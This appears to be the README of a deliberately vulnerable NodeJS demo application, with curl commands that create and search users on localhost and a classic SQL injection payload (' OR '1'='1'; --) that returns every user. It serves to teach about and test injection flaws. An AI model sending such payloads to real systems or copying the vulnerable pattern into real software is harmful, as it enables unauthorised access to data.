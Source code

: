 # Example of a Vulnerable NodeJS Application

This application is vulnerable to SQL injection. To test the behavior start by :

## Create Users 

curl -X POST http://localhost:3000/create -H "Content-Type: application/json" -d '{"name":"User1"}'
curl -X POST http://localhost:3000/create -H "Content-Type: application/json" -d '{"name":"User2"}'
curl -X POST http://localhost:3000/create -H "Content-Type: application/json" -d '{"name":"User3"}'
curl -X POST http://localhost:3000/create -H "Content-Type: application/json" -d '{"name":"User4"}'
curl -X POST http://localhost:3000/create -H "Content-Type: application/json" -d '{"name":"User5"}'

## Search for a User 
curl -X POST http://localhost:3000/search -H "Content-Type: application/json" -d '{"userInput":"User1"}'

## SQL Injection to Get All Users
curl -X POST http://localhost:3000/search -H "Content-Type: application/json" -d "{\"userInput\":\"' OR '1'='1'; -- \"}"

## Run the application

run `node app.js`

> Author : Lucien Chemaly